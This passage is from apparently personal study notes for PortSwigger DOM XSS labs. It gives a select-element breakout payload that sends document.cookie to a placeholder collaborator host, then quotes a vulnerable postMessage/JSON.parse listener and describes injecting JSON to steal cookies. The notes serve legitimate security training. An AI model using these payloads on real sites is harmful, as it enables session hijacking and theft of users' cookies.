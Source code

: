 ```html
"></select><script>document.location='https://COLLABORATOR.com/?domxss='+document.cookie</script>//
```  

![dom-xss](images/dom-xss.png)  

[PortSwigger Lab: DOM XSS in document.write sink using source location.search inside a select element](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-document-write-sink-inside-select-element)  
  
### DOM XSS JSON.parse web messages    

>Target use web messaging and parses the message as JSON. Exploiting the vulnerability by constructing an HTML page on the exploit server that exploits DOM XSS vulnerability and steal victim cookie.  


>The vulnerable JavaScript code on the target using event listener that listens for a web message. This event listener expects a **string** that is parsed using **JSON.parse()**. In the JavaScript below, we can see that the event listener expects a **type** property and that the **load-channel** case of the **switch** statement changes the **img src** attribute.  

>***Identify*** web messages on target that is using **postmessage()** with **DOM Invader**.  

```JavaScript
<script>
	window.addEventListener('message', function(e) {
		var img = document.createElement('img'), ACMEplayer = {element: img}, d;
		document.body.appendChild(img);
		try {
			d = JSON.parse(e.data);
		} catch(e) {
			return;
		}
		switch(d.type) {
			case "page-load":
				ACMEplayer.element.scrollIntoView();
				break;
			case "load-channel":
				ACMEplayer.element.src = d.url;
				break;
			case "player-height-changed":
				ACMEplayer.element.style.width = d.width + "px";
				ACMEplayer.element.style.height = d.height + "px";
				break;
			case "redirect":
				window.location.replace(d.redirectUrl);
				break;
		}
	}, false);
</script>
```  

>To exploit the above `source code`, inject JavaScript into the **JSON** data to change "load-channel" field data and steal document cookie.  
  